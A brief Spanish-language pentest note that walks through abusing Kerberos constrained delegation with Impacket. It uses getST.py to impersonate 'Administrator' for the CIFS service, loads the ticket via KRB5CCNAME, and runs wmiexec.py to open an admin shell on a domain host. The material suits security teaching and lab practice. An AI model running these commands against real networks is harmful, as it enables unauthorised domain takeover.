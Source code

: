 Si un usuario puede realizar constrained delegation, significa que podemos suplantar la identidad del administrador del CIFS servicio en el controlador de dominio.

```
getST.py -spn "cifs/<dominio>" -impersonate "Administrator" "<dominio>/<user>:<pass>"
```

De esta forma estás pidiendo un service ticket (ST) para el servicio CIFS en el dominio dado. - Básicamente: "Dame un ticket Kerberos para acceder a SMB de esa máquina". En este caso, generas un ticket como si fueses admin, con las credenciales de una cuenta con permisos para solicitar ese ticket.

Y ahora para conseguir una shell:

Configuramos la ccache mediante la KRB5CCNAME variable de entorno:

```
export KRB5CCNAME=Administrator.ccache
```

Ahora podemos usar wmi la autenticación Kerberos para obtener un shell con admin:

```
wmiexec.py -k -no-pass Administrator@<dominio>
```




